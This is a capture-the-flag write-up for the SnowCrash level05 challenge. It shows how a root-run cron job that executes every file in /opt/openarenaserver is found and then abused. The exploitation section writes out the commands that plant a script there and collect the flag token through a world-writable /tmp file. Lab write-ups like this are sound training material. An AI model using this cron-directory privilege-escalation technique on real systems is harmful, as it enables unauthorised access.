 # level05

## Recognition

There is a file owned by flag05 in /usr/sbin/openarenaserver.  

```bash
level05@SnowCrash:~$ find / -user flag05 2>/dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

When looking at the content of the file, we can see that this is a bash script executing any file located in /opt/openarenaserver.
```bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

We can also check for all files named `level05`
```bash
level05@SnowCrash:~$ find / -name level05 2>/dev/null
/var/mail/level05
/rofs/var/mail/level05
```

The file in /var/mail/level05 contains the following cron information :
```bash
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Which tells us that the script in /usr/sbin/openarenaserver will be executed by the cron every 2 minutes.

</br>
</br>

## Exploitation

We can then try to add a script in /opt/openarenaserver/ which will execute `getflag`, we will also need to create a file in /tmp/flag so that it will be readable by level05, if the file is created by the script it will not be readable to our user. Similarly we have to give the permission to the file to be written by anyone.

```
level05@SnowCrash:~$ touch /tmp/flag
level05@SnowCrash:~$ chmod a+rwx /tmp/flag
level05@SnowCrash:~$ cat > /opt/openarenaserver/getflag.sh << EOF
> #!/bin/bash
> getflag > /tmp/flag
> EOF
```


We can then wait for the cron to execute the script (we can check it by checking the script which will be deleted after execution), and cat the file /tmp/flag containing the token
```
level05@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```